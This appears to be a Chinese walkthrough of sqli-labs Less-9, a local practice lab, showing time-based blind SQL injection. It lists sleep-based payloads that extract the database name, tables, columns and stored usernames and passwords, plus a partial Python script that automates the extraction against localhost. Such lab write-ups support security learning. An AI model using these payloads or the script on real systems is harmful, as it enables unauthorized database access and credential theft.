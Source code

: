 

### 9

时间盲注

所有尝试无法得到闭合方式。

时间盲注可以知道其闭合方式以及注入方式。

![image-20200711231653771](sql.assets/image-20200711231653771.png)

![image-20200711231626037](sql.assets/image-20200711231626037.png)

```
#爆库
##确定长度
?id=1' and if(length(database())=4 , sleep(3), 1) --+
当?id=1’ and if(length(database())=8 , sleep(3), 1) --+时明显延迟，所以库名长为8
##确定内容
?id=1' and if(left(database(),1)='s' , sleep(3), 1) --+
###‘security’

#爆表
?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' , sleep(3), 1) --+
##使用limit x,1 查询第x个表名，和爆破库名一样，第一个表名为referer。终于，在第三个表爆到users这个表，显然是用户信息表。

#爆字段
?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password', sleep(3), 1) --+
?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 9,1),8)='username', sleep(3), 1) --+

#爆值
?id=1' and if(left((select password from users order by id limit 0,1),4)='dumb' , sleep(3), 1) --+
?id=1' and if(left((select username from users order by id limit 0,1),4)='dumb' , sleep(3), 1) --+
```



```
import requests
value ="0123456789abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ%&^@_.-!"
data=""
 
# 需要 不断 手工调整 url 和 url_length 中的 limit 的第一个参数 来获取下一行的数据
url = "http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((ascii(substr(({0} limit 1,1),{1},1)) = '{2}'),sleep(3),NULL); %23"
url_length="http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((length(({0} limit 1,1))={1} ),sleep(3),NULL); %23"
def get_length(payload):
    for n in range(1,100):
        url= url_length.format(payload,n)
        #print(url)
        if(get_respone(url)):
            print("[+] length is {0}".format(n))
            return n
def get_data(payload,value,length):
    for n in range(1,length):
        for v in value :
            url_data = url.format(payload,n,ord(v)) #ord（）返回字符的ASCII码
            #print(url_data)
            if(get_respone(url_data)):
                global data
                data=data+v
                print("[+] data is {0}".format(data))
```